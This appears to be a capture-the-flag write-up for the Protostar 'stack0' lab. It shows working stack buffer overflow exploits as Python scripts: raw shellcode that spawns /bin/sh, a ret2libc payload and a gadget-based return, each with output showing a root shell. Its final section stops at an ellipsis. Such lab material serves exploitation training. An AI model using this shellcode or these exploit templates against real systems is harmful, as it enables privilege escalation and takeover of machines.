 # stack0

## solution
Disassemble main in `radare2` so we can see the locations (relative to %esp) of the `s` and
`var_8h` variables. 
```
[0x08048340]> pdf @main
            ; DATA XREF from entry0 @ 0x8048357
┌ 65: int main (int argc, char **argv, char **envp);
│           ; var char *s @ esp+0x1c
│           ; var int32_t var_8h @ esp+0x5c

...
```

We can then calculate the distance from the variable `s` to the variable `var_8h` to find the
length of the buffer.
```
>>> 0x5c - 0x1c
64
```

To solve the challenge, we just need to change the `var_8h` variable to anything other than 0. Here
we'll change it to `42424242`.
```
user@protostar:/opt/protostar/bin$ python -c 'print "A"*64+"BBBB"' | ./stack0
you have changed the 'modified' variable
```

## shells

### classic buffer overflow
First we need to find the offset from the start of the buffer to the %eip register, so we can
redirect process execution. We can do this by giving it a known pattern of bytes, in this case
`BBBBCCCCDDDD`, and so on.
```
(gdb) r
Starting program: /opt/protostar/bin/stack0 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF
you have changed the 'modified' variable

Program received signal SIGSEGV, Segmentation fault.
0x46464646 in ?? ()
```

Since %eip was overwritten with `46464646` the offset is easily calculated as 80 bytes.

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff740 + off + 0x80)

print pad + ret + nop + buf 
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack0
you have changed the 'modified' variable
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2libc
First we need to find the address of `system` within memory. We can do this within gdb.
```
(gdb) b main
Breakpoint 1 at 0x80483fd: file stack0/stack0.c, line 10.
(gdb) r
Starting program: /opt/protostar/bin/stack0 

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:10
10	stack0/stack0.c: No such file or directory.
	in stack0/stack0.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

We also need to find the address of libc itself, we can also do this within gdb.
```
(gdb) info proc map
process 2051
cmdline = '/opt/protostar/bin/stack0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack0'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack0
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack0
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fde000 0xb7fe2000     0x4000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
```

We then need to find the offset of "/bin/sh" within libc. We can do this using a combination of
`strings` and `grep`.
```
user@protostar:/opt/protostar/bin$ strings /lib/libc.so.6 -t x | grep '/bin/sh'
 11f3bf /bin/sh
```

```py
import struct

off = 80

pad = 'A' * off

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

print pad + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ (python /tmp/pwn.py; cat) | ./stack0
you have changed the 'modified' variable
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to shellcode
First we need to find a POP, POP, RET gadget in the target binary. We can do this with
`msfelfscan`.
```
➜  stack git:(master) ✗ msfelfscan -s -f stack0
0x080484a7   edi ebp ret
0x080483c2   ebx ebp ret
0x080484d7   ebx ebp ret
```

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x080484a7)

ret += 'AAAA'                                    # POP
ret += 'AAAA'                                    # POP
ret += struct.pack('I', 0xbffff740 + off + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack0
you have changed the 'modified' variable
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### ret2.text to libc
...
